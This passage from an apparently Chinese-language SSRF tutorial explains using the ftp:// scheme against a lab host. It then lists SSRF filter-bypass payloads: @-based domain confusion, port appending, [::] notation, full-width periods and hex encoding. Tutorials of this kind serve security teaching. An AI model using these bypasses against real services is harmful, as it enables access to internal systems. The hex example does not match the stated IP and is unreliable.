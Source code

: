 ### 2.5.7. ftp协议

#### 2.5.7.1. ftp协议解释

ftp相比都知道其实就是个文件共享服务，它允许客户端从远程主机获取文件或将文件上传至远程主机。

#### 2.5.7.2. ftp协议案例

其实从箭头指的就能看出来，我这台靶机是没有开启FTP服务的。当然ftp访问还是会存在输入账号密码的情况，当服务器未开启匿名访问的时候就需要输入账号密码了。

```
输入内容：ftp://192.168.10.150:21
```

![image-20230414083407286](assets/2YnH6l5iAs8Bv4V.png)

## 2.6. SSRF绕过

```
1）限制域名时添加@进行绕过。
如：http://baidu.com/?url=http://baidue.com@google.com/
2）添加端口绕过。
如：http://baidu.com/?url=http://google.com:443
3）利用[::]绕过。
如：http://baidu.com/?url=http://[::192.168.10.150]
4）利用句号绕过。
如：http://baidu.com/?url=http://192。168。10。150
5）编码绕过。
如：十六进制http://baidu.com/?url=http://c0.a8.6d.96
```
